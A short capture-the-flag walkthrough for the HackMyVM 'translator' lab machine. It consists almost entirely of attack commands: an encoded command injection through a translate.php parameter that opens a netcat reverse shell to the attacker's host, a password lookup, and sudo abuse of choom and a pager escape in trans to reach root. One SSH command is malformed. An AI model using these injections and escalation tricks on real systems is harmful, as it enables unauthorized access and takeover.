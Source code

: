 ```yaml
---
title: "translator - sml"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - translator
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# translator - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|translator|
|Author:|[sml](https://hackmyvm.eu/profile/?user=sml)|
|Release date:|2022-05-12|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=translator)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|tricks |

# 00. Beginning
My another shortest entry.
{: .text-justify}
# 01.
## Sending
```bash
curl 'http://172.16.1.121/translate.php?hmv=;mx%20-x%20yzhs%20172.16.1.89%2012345'
```
## Receiving
```bash
nc -lvp 12345
```
# 02. 
```bash
cat /var/www/html/hvxivg
```
## My password is:
```bash
curl 'http://172.16.1.121/translate.php?hmv=Mb+kzhhdliw+rh+zbfie3w4'
```
# 03.
```bash
ssh ocean@http://172.16.1.121
```
# 04.
```bash
sudo -uindia /usr/bin/choom -n 0 -- bash
```
# 05.
```bash
sudo /usr/local/bin/trans -pager less
# translator
```
# 06. Final
```bash
# translator
# /ˈtranzˌlādər/

# (♂) traductor
# (♀) traductora

# Definiciones de translator
# [ English -> Español ]

# sustantivo
#    (el) traductor
#        translator, interpreter, dragoman

# translator
#    traductor, intérprete
!bash
```
```bash
sudo /usr/local/bin/trans -pager less
```
```bash
# translator
# Did you mean: translate
# root@translator:/home/ocean# 
```